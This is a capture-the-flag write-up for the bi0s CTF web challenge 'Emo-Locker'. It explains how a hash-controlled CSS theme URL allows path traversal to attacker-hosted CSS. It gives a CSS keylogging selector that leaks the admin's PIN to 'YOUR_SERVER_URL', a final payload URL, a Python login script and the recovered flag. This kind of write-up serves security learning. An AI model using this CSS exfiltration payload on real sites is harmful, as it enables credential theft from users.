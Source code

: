 Web Emo-Locker: (we solved it 1 hour after the event finished, as we didn't get enough time due to playing the previous CTF)

Going to `http://web.chall.bi0s.in:10101/` on chrome and checking Sources, we'll find the source as it's running on dev mode.
Looking at the file static/js/index.js we see a really interesting point:

```js
switchTheme() {
    this.setState((prevState) => {
        let href = `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/${
            window.location.hash.replace("#", '')
        }-mode.css`;
        prevState.link_obj.href = href;
        return {}
    });
}
```

There's a `css` script loaded for themes, we have limited control over the input but there's tricks to do keylogging via `CSS`.
But can we provide our own css, the short answer is yes, after digging we found that you can load a file from github by using `https://cdn.jsdelivr.net/gh/user/repo@version/file`. 

After some trial and fail, we ended up with the script: 

```CSS
[role^="img"][aria-label="1"]:empty { background-image: url("YOUR_SERVER_URL?1"); }
```

You do this for all 163 numbers.

Then our final payload was:
`http://web.chall.bi0s.in:10101/#../../../../gh/user/repo@version/file?`
The `?` is to ignore the `-mode.css`, or you can just name your file `anything-mode.css` and not use the `?`.

Then send the URL to admin bot and you get the password: `51,32,73,34,85,126,17,158,79,50`

Then you can just login with python or BURP and you'll get the FLAG in cookie:

```python
import requests

json_data = {
    'username': 'admin',
    'pin': [51,32,73,34,85,126,17,158,79,50,],
}
response = requests.post('http://web.chall.bi0s.in:10101/api/login', json=json_data)
print(response.text)
print(response.cookies)
```

And you get the result:

```js
{"status":"Welcome admin !"}
```


And cookie:

```java
<RequestsCookieJar[<Cookie auth=bi0sctf%7Ba34522e2009192570c840f931e4c3c0a%7D for web.chall.bi0s.in/>]>
```


And then you just URL decode the auth and you get: `bi0sctf{a34522e2009192570c840f931e4c3c0a}`
